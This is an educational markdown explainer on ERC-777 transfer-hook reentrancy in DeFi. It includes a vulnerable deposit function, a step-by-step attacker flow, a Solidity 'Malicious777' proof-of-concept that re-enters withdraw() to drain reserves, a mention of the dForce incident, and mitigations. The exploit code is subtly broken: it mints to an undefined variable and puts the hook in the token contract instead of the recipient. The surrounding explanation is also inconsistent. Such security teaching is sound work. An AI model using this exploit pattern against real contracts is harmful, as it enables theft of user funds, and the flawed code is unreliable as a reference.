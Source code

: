 # 🚨 Transfer Hooks & Reserve Manipulation in DeFi
### Transfer Hooks
A **transfer hook** is any **callback or user-defined logic triggered during a token transfer**.  
Most developers assume ERC-20 tokens behave “passively”:
```solidity
token.transferFrom(user, protocol, amount);
```
...should just move balances and return.
- But **ERC-777** introduced **transfer hooks**:
  - `tokensToSend` → called before tokens leave the sender.
  - `tokensReceived` → called after tokens arrive at the recipient.  
- In ERC-721 / ERC-1155 (NFTs), there are `onERC721Received` / `onERC1155Received` hooks triggered on safe transfers.

These hooks let contracts react automatically when tokens move.  
**Great for UX**, dangerous for protocols.

### 🔹 Why are they Dangerous?
Because the hook is an **arbitrary external callback**, which means control flow is temporarily given back to the attacker _during_ a protocol’s function execution.
```solidity
function deposit(uint256 amount) external {
    uint before = token.balanceOf(address(this));

    token.transferFrom(msg.sender, address(this), amount); 
    // ⬆️ attacker regains control here (tokensReceived hook fires)

    uint after = token.balanceOf(address(this));
    uint credited = after - before;
    balances[msg.sender] += credited;
}
```
👉 Problem:
While inside `tokensReceived`, the attacker can _re-enter_ the protocol and call other functions like `withdraw()`.  
Since the state (`balances`) hasn’t been updated yet, they bypass accounting and drain reserves.

---

### 🔹 Attacker Flow (Reentrancy via `tokensReceived`)
1. Attacker crafts a malicious ERC-777 token.
   - Its `tokensReceived` hook calls back into the protocol.
2. Attacker calls `deposit()` with their malicious token.
3. Inside `deposit()`, `transferFrom()` triggers `tokensReceived`.
4. Attacker’s hook executes **before balances are updated**, so:
   - Calls `withdraw()` (or another sensitive function).
   - Protocol still thinks attacker has zero balance.
   - Attacker drains liquidity.
5. When execution returns, the protocol updates balances with corrupted state → reserves mismatch, losses.
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import "@openzeppelin/contracts/token/ERC777/ERC777.sol";
import "./VulnerableProtocol.sol";  // victim contract

contract Malicious777 is ERC777 {
    address public owner;
    VulnerableProtocol public target;
    constructor(address _target, address[] memory defaultOperators)
        ERC777("EvilToken", "EVL", defaultOperators)
    {
        owner = msg.sender;
        target = VulnerableProtocol(_target);
        _mint(_owner, 1000 ether, "", "", false);
    }
    // ERC777 hook automatically called when tokens are received
    function tokensReceived(
        address /*operator*/,
        address from,
        address to,
        uint256 /*amount*/,
        bytes calldata /*userData*/,
        bytes calldata /*operatorData*/
    ) external override {
        // Reenter the target mid-transaction
        if (from == owner && to == address(target)) {
            target.withdraw(100 ether); // drain before balances are updated
        }
    }
}
```
---
### 🔹 Real-World Exploit
- **dForce (2020)**: integrated ERC-777 without safeguards.
- Attackers used the `tokensReceived` reentrancy vector to **drain ~$25M** by manipulating lending reserves mid-transaction.
- Fix: Use **reentrancy guards**, avoid ERC-777 directly, or follow the **Checks-Effects-Interactions** pattern.

---
### 🔹 Mitigation Patterns
- **Avoid hooks**: Prefer ERC-20 over ERC-777 unless absolutely required.
- **Track reserves internally** instead of reading live balanceOf().
- **ReentrancyGuard** on sensitive functions.
- **Update storage state before external calls**.

---
### ✅ Takeaway
Hooks like `tokensToSend` and `tokensReceived` look harmless, but they turn a plain transfer into an **untrusted callback execution point**.  
If reserve updates or user balances happen **after** the transfer, attackers can slip in **mid-transaction manipulations**.
